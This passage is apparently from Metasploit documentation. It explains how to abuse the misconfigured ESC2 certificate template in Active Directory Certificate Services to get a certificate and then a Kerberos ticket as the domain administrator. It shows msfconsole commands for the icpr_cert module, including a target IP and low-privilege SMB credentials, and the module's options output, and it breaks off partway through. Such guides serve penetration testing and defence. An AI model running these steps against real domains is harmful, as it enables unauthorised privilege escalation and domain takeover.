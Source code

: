 We can then use the `kerberos/get_ticket` module to gain a Kerberos ticket granting ticket (TGT) as the `Administrator`
domain administrator. See the [Getting A Kerberos Ticket](#getting-a-kerberos-ticket) section for more information.

# Exploiting ESC2 To Gain Domain Administrator Privileges
From the previous enumeration efforts we know that the following certificate templates are vulnerable to ESC2:
- SubCA - Not exploitable as you have to be a Domain Admin or Enterprise Admin to enroll in this certificate
- ESC2-Template - Enrollable by any authenticated user that is part of the Domain Users group, aka any authenticated domain user.

We will use ESC2-Template to gain a TGT as the domain administrator user.

To do this we will use the `ipcr_cert` module and we will set the usual options, however we will need to run it twice. This is because with ESC2, we can't use the vulnerability to request authentication certificates as other users without the `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` flag being set on the template. Instead what we can do is use the Any Purpose EKU or SubCA EKU that are set on these certificates to authenticate to the domain as the user who requested the certificate. So what we do is first get a ESC2 vulnerable certificate, then abuse the ability to use that certificate for any purpose to then request a certificate on behalf of another user, using that certificate as the form of authentication for this operation.

For the first run, we will set the usual `RHOSTS`, `CA`, and `CERT_TEMPLATE` details, being sure to set `CERT_TEMPLATE` to the vulnerable `ESC2-Template` certificate template, and supply valid SMB login credentials. This will grant us a certificate for our current user that is based off of the vulnerable `ESC2-Template`:

```msf
msf6 > use auxiliary/admin/dcerpc/icpr_cert
msf6 auxiliary(admin/dcerpc/icpr_cert) > set RHOSTS 172.30.239.85
RHOSTS => 172.30.239.85
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CA daforest-WIN-BR0CCBA815B-CA
CA => daforest-WIN-BR0CCBA815B-CA
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CERT_TEMPLATE ESC2-Template
CERT_TEMPLATE => ESC2-Template
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBDomain DAFOREST
SMBDomain => DAFOREST
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBPass normalpass
SMBPass => normalpass
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBUser normaluser
SMBUser => normaluser
msf6 auxiliary(admin/dcerpc/icpr_cert) > show options

Module options (auxiliary/admin/dcerpc/icpr_cert):

   Name           Current Setting              Required  Description
   ----           ---------------              --------  -----------
   ALT_DNS                                     no        Alternative certificate DNS
   ALT_UPN                                     no        Alternative certificate UPN (format: USER@DOMAIN)
   CA             daforest-WIN-BR0CCBA815B-CA  yes       The target certificate authority
   CERT_TEMPLATE  ESC2-Template                yes       The certificate template
   ON_BEHALF_OF                                no        Username to request on behalf of (format: DOMAIN\USER)
   PFX                                         no        Certificate to request on behalf of
   RHOSTS         172.30.239.85                yes       The target host(s), see https://github.com/rapid7/metas
                                                         ploit-framework/wiki/Using-Metasploit
   RPORT          445                          yes       The target port (TCP)
   SMBDomain      DAFOREST                     no        The Windows domain to use for authentication
   SMBPass        normalpass                   no        The password for the specified username
```